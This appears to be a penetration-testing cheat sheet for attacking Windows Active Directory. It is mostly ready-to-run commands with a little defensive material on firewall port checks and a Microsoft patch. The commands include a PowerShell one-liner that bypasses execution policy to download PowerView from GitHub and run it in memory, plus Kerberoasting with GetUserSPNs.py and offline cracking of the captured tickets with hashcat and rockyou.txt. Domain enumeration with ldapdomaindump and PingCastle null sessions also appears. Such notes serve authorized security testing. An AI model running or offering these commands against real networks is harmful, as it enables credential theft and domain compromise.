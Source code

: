 
```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain"
```

## Detect Firewall Blocking AD

PortQryUI - http://www.microsoft.com/download/en/details.aspx?id=24009
* Run the “Domains & Trusts” option between DCs, or between DCs and any machine
* “NOTLISTENING,” 0x00000001, and 0x00000002, that means there is a port block
* Can ignore UDP 389 and UDP 88 messages
* TCP 42 errors, that just means WINS is not running on the target server

> https://blogs.msmvps.com/acefekay/2011/11/01/active-directory-firewall-ports-let-s-try-to-make-this-simple/

## Scanning

```
pingcastle.exe --healthcheck --server <DOMAIN_CONTROLLER_IP> --user <USERNAME> --password <PASSWORD> --advanced-live --nullsession
```

- Automating AD Enumeration (Bloodhound, PowerUp, Responder, CrackMapExec): https://medium.com/bugbountywriteup/automating-ad-enumeration-with-frameworks-f8c7449563be


## Collections

- [Active Directory Kill Chain Attack & Defense](https://github.com/infosecn1nja/AD-Attack-Defense)


## KB2871997
- https://technet.microsoft.com/library/security/2871997
- Microsoft has definitely raised the bar: accounts that are members of the localgroup “Administrators” are no longer able to execute code with WMI or PSEXEC, use schtasks or at, or even browse the open shares on the target machine. Oh, except (as pwnag3 reports and our experiences confirm) the RID 500 built-in Administrator account, even if it’s renamed.

## Microsoft Windows AD Kerberos Tickets

Gather tickets 
```
GetUserSPNs.py -request (HOST.DOMAIN)/(VALID SMB USER):(USER PASSWORD)
```

Crack
```
-a 0 - Straight cracking mode
-m 13100 - Hashtype 13100 - which is Kerberos 5 TGS-REP etype 23
the kerberos.ticket file
-w 3 - Suggested example "workload" setting for Hashcat

.\hashcat64.exe -m 13100 -a 0 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\kerberos.tick
et' -w 3 'C:\Users\weaknet\Desktop\Portfolio\VMWare Shared\rockyou.txt'
hashcat (v5.1.0) starting...
```


## Dump 

```
ldapdomaindump -u example\example 10.10.10.10
```